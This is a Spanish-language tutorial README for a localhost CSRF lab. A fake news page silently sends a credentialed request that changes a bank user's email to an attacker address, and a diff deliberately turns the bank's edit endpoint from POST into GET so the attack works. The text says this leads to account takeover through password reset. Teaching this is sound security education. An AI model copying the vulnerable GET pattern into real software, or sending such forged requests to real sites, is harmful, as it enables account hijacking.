



CSRF(Cross-Site Request Forgery) es un tipo de ataque que engaña al usuario para que ejecute acciones no deseadas en una aplicación web en la que está auntenticado. El atacante se aprovecha de la confianza que el usuario tiene en la aplicación y la utiliza para realizar acciones en su nombre. CSRF utiliza esta confianza para enviar una petición a la aplicación con la cookie de sesión. La aplicación web no tiene forma de distinguir entre una solicitud legítima y una solicitud CSRF, por lo que procesa la solicitud como si viniera del usuario.

En este ejemplo vamos a ver como se puede realizar un ataque CSRF, los errores que se pueden cometer al crear una aplicación web y como se puede evitar este tipo de ataques.

Vamos a tener tres partes funcionando:

- El Front End de un banco.
- El backend de un banco.
- El front end de un sitio malicioso que recopila información.


# Manos a la obra

> ## Instalación

Hacemos un _npm install_ en el directorio de trabajo que es el 03-CSRF e instalamos todas las dependencias de las 3 apps.

```
npm install
```

Podemos arrancar las apps con _npm start_, o arrancarlas mejor individualmente para ver el mensaje por la consola de la app de backend cuando se produzca el ataque.

```
npm start

```

Abrimos el navegador y accedemos a la app de frontend en la ruta http://localhost:1234



> ## Pasos

Una vez que arrancamos el frontend y el backend de mybank, podemos logearnos usando:

```
email: user@email.com
password: test
```

Ya logeado podemos inspeccionar las _dev tools_ para ver que dentro de _Application_ tenemos almecenada nuestra cookie.


Abrimos ahora nuestro navegador en la ruta http://localhost:1235, aquí vamos a simular que nos han enviado un correo con un enlace malicioso.
Hemos creado un enlace que nos redirige a una fake web de noticias que nos simula el ataque CSRF.

En este caso vamos a intentar hacer un cross posting al dominio del banco
desde nuestra aplicación maliciosa arrastrando las cookies del bnaco.

Dentro de la la ruta _frontend-chupilchuli/src/index.html_, tenemos un fetch comentado. Como está ahora mismo sería seguro y no se realizaría el CSRF.

```javascript
 <script>
    // Esto es CSRF con post
    fetch("/api/security/edit", {
      method: "POST",
      credentials: "include",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        email: "hack@hacker.com",
      }),
  </script>
```

Si entramos en las _dev tools_ en la consola nos dice que el servidor ha respondido con un 405, método no permitido y no se ha podido realizar la petición. Es decir, estamos seguros que no se ha realizado el ataque.

Esto pasa porque hacemos un post.



¿Y si cambiamos por un GET? Esto se consideraría una mala práctica a la hora
de implementar tu API Rest, pero es muy común encontrarlo en API's que no
están bien implementadas.

Este cambio es un error, ya que el método GET no debería modificar datos en el servidor. Si utilizamos el método GET para realizar una petición que modifica datos en el servidor, estamos abriendo la puerta a un ataque CSRF.

Vamos a refactorizar nuestro código:

_frontend-chupilchuli/src/index.html_

```diff
<script>
-       // Esto es CSRF con post
-       fetch("/api/security/edit", {
-         method: "POST",
-         credentials: "include",
-         headers: {
-           "Content-Type": "application/json",
-         },
-         body: JSON.stringify({
-           email: "hack@hacker.com",
-         }),
-       });
+      // Esto es CSRF con get
+      fetch("http://localhost:3000/api/security/edit?" +
+        new URLSearchParams({
+                    email: "hack@hacker.com",
+        }), {
+        method: "GET",
+        credentials: "include",
+      })
+        .then((response) => response.text())
+        .then((text) => console.log(text))
+        .catch((error) => console.log(error));
    </script>
```

Y vamos a nuestro backend a _backend-mybank/src/pods/security/security.rest-api.js_ al _endpoint_ de _edit_, y cambiamos el método _post_ por _get_.

_backend-mybank/src/pods/security/security.rest-api.js_

```diff
- .post("/edit", authenticationMiddleware, async (req, res, next) =>
+ .get("/edit", authenticationMiddleware, async (req, res, next) => {
    try {
      const newUserEmail = await userRepository.updateEmail(
        req.userSession?.id,
        req.body.email
      );
      console.log(
        `User ${req.userSession?.id} email changed to ${newUserEmail}`
      );
      res.send("Email changed");
    } catch (error) {
      next(error);
    }
  });

```

Volvemos a repetir la simulación de la apertura de nuestra aplicación maliciosa, y vemos que en la consola del _backend_ de _mybank_ nos aparece el mensaje de que el email ha sido cambiado.



Ahora podríamos entrar en he perdido mi contraseña y cambiarla sin ningún problema y hacer en la aplicación de _mibank_ lo que quisiéramos.
